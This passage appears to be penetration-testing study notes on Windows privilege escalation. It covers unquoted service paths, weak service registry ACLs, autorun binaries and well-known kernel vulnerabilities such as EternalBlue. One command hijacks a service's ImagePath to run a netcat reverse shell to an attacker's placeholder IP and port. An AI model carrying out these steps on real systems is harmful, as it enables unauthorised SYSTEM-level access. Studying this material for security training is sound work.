 
**Searching for Unquoted Service Paths**
````
> wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
````

**Permissive Registry ACLs**
````
# Checking for Weak Service ACLs in Registry
> accesschk.exe /accepteula "<user>" -kvuqsw hklm\System\CurrentControlSet\services

Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com

RW HKLM\System\CurrentControlSet\services\ModelManagerService
        KEY_ALL_ACCESS

<SNIP>

# Changing ImagePath with PowerShell
> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\<user>\Downloads\nc.exe -e cmd.exe <Our_IP> <Our_Port>"
````

**Modifiable Registry Autorun Binary**
````
# Check Startup Programs
> Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
````
We can use WMIC to see what programs run at system startup. Suppose we have write permissions to the registry for a given binary or can overwrite a binary listed. In that case, we may be able to escalate privileges to another user the next time that the user logs in.


## Kernel Exploits

It's a big challenge to ensure that all user desktops and servers are updated, and 100% compliance for all computers with security patches is likely not an achievable goal. Assuming a computer has been targeted for installation of updates, for example, using SCCM (Microsoft System Center Configuration Manager) or WSUS (Windows Server Update Services), there are still many reasons they could fail to install.

**Notable Vulnerabilities**

MS08-067 - This was a remote code execution vulnerability in the "Server" service due to improper handling of RPC requests. This affected Windows Server 2000, 2003, and 2008 and Windows XP and Vista and allows an unauthenticated attacker to execute arbitrary code with SYSTEM privileges. 

MS17-010 - Also known as EternalBlue is a remote code execution vulnerability that was part of the FuzzBunch toolkit released in the Shadow Brokers leak. This exploit leverages a vulnerability in the SMB protocol because the SMBv1 protocol mishandles packets specially crafted by an attacker, leading to arbitrary code execution on the target host as the SYSTEM account.

ALPC Task Scheduler 0-Day - The ALPC endpoint method used by the Windows Task Scheduler service could be used to write arbitrary DACLs to .job files located in the C:\Windows\tasks directory. An attacker could leverage this to create a hard link to a file that the attacker controls. The exploit for this flaw used the SchRpcSetSecurity API function to call a print job using the XPS printer and hijack the DLL as NT AUTHORITY\SYSTEM via the Spooler service.
